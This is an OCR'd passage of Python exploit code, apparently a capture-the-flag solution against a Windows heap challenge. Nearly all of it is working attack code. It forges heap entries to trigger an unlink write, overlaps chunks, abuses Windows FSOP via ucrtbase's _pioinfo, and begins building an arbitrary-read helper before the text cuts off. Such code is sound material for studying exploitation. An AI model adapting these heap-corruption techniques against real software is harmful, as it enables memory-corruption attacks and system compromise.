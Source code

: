 ```python
    for_leak += fake_FILE * ((0x1000-len(for_leak)) / len(fake_FILE))

    edit(4, for_leak, False)
    read_file(3, 8, False)

    # ucrtbase!_pioinfo[0] has fixed heap offset
    hi.send(p64(heap_base+0x8d48)) # I dunno any details about windows FSOP...V_V
    sla("Your choice: ", str(3))   # But @scwuaptx said offset 0x38 is flag
    edit(3, p8(9), False)          # this will switch text mode to binary mode

    fxxk = 0xbeefdad0000 + (0x28 * 5) + 0x20 # heap_mem of chunk 6 

    alloc(7, (0x520*2) + 0x10) # sizeof(chunk 5 and 6) + sizeof(_HEAP_ENTRY)
                               # have same heap_mem with chunk 5
    free(5)                    # Actually it free'ing chunk 7
    alloc(5, 0x520)            # Now, chunk 7 === chunk 5

    # But chunk 7 is bigger than chunk 5
    edit(7, "A" * 0x520 + 
            p64(0) + 
            p64(0x5353000053 ^ heap_encod) + 
            p64(fxxk - 8) + # Flink->Blink = Flink
            p64(fxxk)       # Blink->Flink = Blink
                            # satisfying unlink condition
                            # *(fxxk) = fxxk
    )
    alloc(8, 0x520)
    
    lazy_id1 = 0xdeadbeef 
    lazy_id2 = 0xcafebabe
    lazy_id3 = 0x13371337
    create_lazy_header = lambda chunk_id : flat([
                                               0xddaabeef1acd, 
                                               0x200,
                                               chunk_id,
                                               0xddaabeef1acd, 
                                           ], word_size=64, endianness="little")

    lazy_header1 = create_lazy_header(lazy_id1)
    lazy_header2 = create_lazy_header(lazy_id2)
    lazy_header3 = create_lazy_header(lazy_id3)

    edit(0x5353000053 ^ heap_encod, p64(0xbeefdad0000) + 
                                    lazy_header1 + 
                                    p64(0xbeefdad0000)
    )

    # set lazy_header1 at 0xbeefdad0000
    edit(lazy_id1, lazy_header1 + p64(0xbeefdad0000)) 

    # Becuase of edit limit at "2. Edit File content",
    # HAVE TO keep modifying magic1
    def lazy_read(addr):
        global magic_switch

        if magic_switch:
            edit(lazy_id1, lazy_header1 + 
                           p64(addr) +
                           lazy_header2 +
                           p64(0xbeefdad0000)
            )
            result = show(lazy_id1)
        else:
```